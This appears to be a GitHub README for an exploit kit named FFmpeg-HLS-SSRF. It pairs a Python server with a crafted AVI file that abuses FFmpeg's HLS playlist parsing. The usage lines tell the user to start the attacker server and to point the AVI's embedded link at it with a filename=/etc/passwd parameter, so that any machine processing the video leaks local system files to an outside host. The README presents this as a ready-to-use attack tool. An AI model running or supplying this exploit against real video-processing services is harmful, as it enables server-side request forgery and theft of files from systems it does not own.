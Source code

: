 # FFmpeg-HLS-SSRF
Server and avi file to exploit FFmpeg HLS parse

## Dependencies: python3.5 > 
## Usage:
##### credits: @neex
```
python3 server.py --external-addr <external-ip-of-your-server> --port 8080
modify video.avi so the link inside it will point to your server and be like this: http://<external-ip-of-your-server>:8080/initial.m3u?filename=/etc/passwd
```
